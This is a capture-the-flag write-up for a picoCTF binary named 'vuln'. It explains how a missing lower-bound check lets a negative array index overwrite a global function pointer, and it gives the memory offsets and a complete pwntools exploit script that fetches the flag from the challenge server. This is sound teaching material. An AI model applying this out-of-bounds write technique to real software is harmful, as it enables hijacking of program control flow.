

# 📘 Write-up: Exploiting Function Pointer Overwrite in `vuln`


---

## 🧠 Challenge Summary

We are given a binary called `vuln`, which asks the user to:

1. Enter a "story" (a string),
2. Enter two integers.

Depending on the ASCII sum of the story, and internal checks, the program may print a flag if a specific condition is met.

---

## 🔍 Source Code Analysis

### Key observations from the source:

```c
void (*check)(char*, size_t) = hard_checker;
int fun[10] = {0};
```

* A global function pointer `check` initially points to `hard_checker`.
* There is an integer array `fun[10]`, used in the vulnerable code.

---

### 🚨 Vulnerability

In this section of the vulnerable function:

```c
scanf("%d %d", &num1, &num2);
if (num1 < 10) {
    fun[num1] += num2;
}
```

There is no lower-bound check on `num1`. This means:

* You can input **negative indices** into the `fun` array.
* So, if `check` is located in memory just **before** `fun`, then `fun[-N]` can **overwrite the `check` function pointer**.

This is known as an **array out-of-bounds write**.

---

### 🔎 Memory Layout Analysis

With some binary inspection (e.g. using `radare2`, `gdb`, `pwndbg`, or `gef`):

```asm
&check = 0x0804C040
&fun   = 0x0804C080
```

So:

```
0x0804C080 - 0x0804C040 = 64 bytes
64 bytes / 4 (int size) = 16
```

Thus:

```c
fun[-16] == *(int*)&check;
```

Perfect! We can overwrite `check`.

---

## 🎯 Goal

Instead of calling `hard_checker(story, len)`, we want it to call:

```c
easy_checker(story, len)
```

This is easier to satisfy and leaks the flag if `calculate_story_score(story) == 1337`.

---

## 🧮 Calculating the Required Payload

### ✅ ASCII Sum == 1337

We need the ASCII sum of the story to be exactly `1337`.

One way:

```py
Z = 90, M = 77
90 * 14 + 77 = 1260 + 77 = 1337
```

So:

```py
story = b"Z" * 14 + b"M"
```

---

### ✅ Overwrite Function Pointer

The offset between `easy_checker` and `hard_checker` is:

```py
easy_checker = 0x080492FC
hard_checker = 0x08049436

easy_checker_offset = easy_checker - hard_checker  # -316
```

So:

```py
fun[-16] += -316  # Effectively changes check = easy_checker
```

We send:

```py
num1 = -16
num2 = -316
```

---

## 🧪 Final Exploit Code

```python
from pwn import *

# ==== Configuration ====
DEBUG = False  # Set to True to run locally
HOST = "saturn.picoctf.net"
PORT = 49960
BINARY = "./vuln"

# ==== Offsets ====
hard_checker = 0x08049436
easy_checker = 0x080492FC
easy_checker_offset = easy_checker - hard_checker  # -316
check_ptr_offset = -16  # Overwrite fun[-16] = check

# ==== Payload ====
story = b"Z" * 14 + b"M"  # ASCII sum = 1337

# ==== Exploit ====
def exploit(p):
    log.info("Sending story with ASCII sum 1337...")
    p.sendlineafter(b">> ", story)

    log.info("Overwriting check pointer with offset -316...")   
    p.sendlineafter(b"10.\n", str(check_ptr_offset).encode())
    p.sendline(str(easy_checker_offset).encode())

    # Read flag
    response = p.recvall(timeout=2).decode(errors="ignore")
    start = response.find("picoCTF{")
    end = response.find("}", start)

    if start != -1 and end != -1:
        flag = response[start:end+1]
        success(f"[+] Flag: {flag}")
    else:
        warning("[!] Flag not found.")
        print(response)

# ==== Launch ====
if DEBUG:
    p = process(BINARY)
else:
    p = remote(HOST, PORT)

exploit(p)
```

---

## 📌 Final Notes

* We exploited an **out-of-bounds array write** to overwrite a **function pointer**.
* This is a classic CTF-style binary exploitation vulnerability.
* No ASLR or stack protection affected this; the overwrite was in the **.bss** section (global data).

---

## 🏁 Sample Output




---

